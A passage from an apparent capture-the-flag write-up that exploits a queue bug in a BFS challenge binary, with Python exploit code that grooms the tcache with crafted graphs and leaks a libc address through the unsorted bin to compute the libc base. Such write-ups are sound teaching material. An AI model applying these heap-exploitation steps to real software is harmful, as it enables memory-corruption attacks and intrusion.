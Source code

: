 But there's an issue: if values keep getting popped off the queue as we add them, the linearity won't help us. As demonstrated earlier, the queue will end up reallocting at the same two addresses, and the tcache will never get to above one chunk in it.

Instead, we must exploit the vulnerability I discussed earlier with the queue. Instead of using unfindable ends like we have been previously, lets make the bfs algorithm actually find a valid path 😁

That'll allow some values to stay in the queue as we wish, which is pretty useful. We can build a graph with 0 connecting to all other nodes, and search for 255, which will be pushed(and not popped) last. Since it only goes one layer deep, there won't be any popping of values 1-255. This, however, creates an issue for repetition.

Next time we call the bfs algorithm, the first value to be popped off the queue will be 1, since that was most recently pushed. That means, if we send the first graph once more, it won't really work out in our favour, since it'll traverse starting at 1, then 2, etc.

The solution is to keep track of what the first value on the queue will be, and set the graph up such that every other node is connected to that node.

For future, sometimes we won't want to populate the queue to completion. To account for this I implemented a feature that allows it to stop on the last population at a certain value. This will be useful later, after we achieve tcache poisoning
```python
first = 0
def populatenofree(num, partial=None):
    # Make it find it so it doesnt pop off(need to make sure that doesnt mess up future traversals doe)
    global first
    for j in range(num):
        edges = [[first, i] for i in list(range(0, first)) + list(range(first + 1,256))]
        if j == num - 1 and partial is not None:
            edges2 = []
            for edge in edges:
                if edge[1] == partial:
                    break
                else:
                    edges2.append(edge)
            sendtestcase(partial, first, partial - 1, edges2)
        else:
            sendtestcase(256, first, 255, edges)
        first += 1
    p.clean(0.2)
```

#### Leaking libc
From there, the libc leak is relatively intuitive, we just populate the queue a whole load (about 16 or above should do) and then use an unfindable value to pop every value off of the queue, successfully dumping a chunk into the unsorted bin for some juicy leaks.

```python
populatenofree(18)
# Unfindable, pop everything off the queue, freeing a bunch of chunks and placing a libc pointer strategically on the heap
sendtestcase(2, 0, 512, [[0,1]])
recvdata()
libcleak = u64(read(0x11e20 + 0x10, 8))
log.info(f"Libc leak: {hex(libcleak)}")
libc.address = libcleak - 0x219ce0
log.info(f"Libc base: {hex(libc.address)}")
```
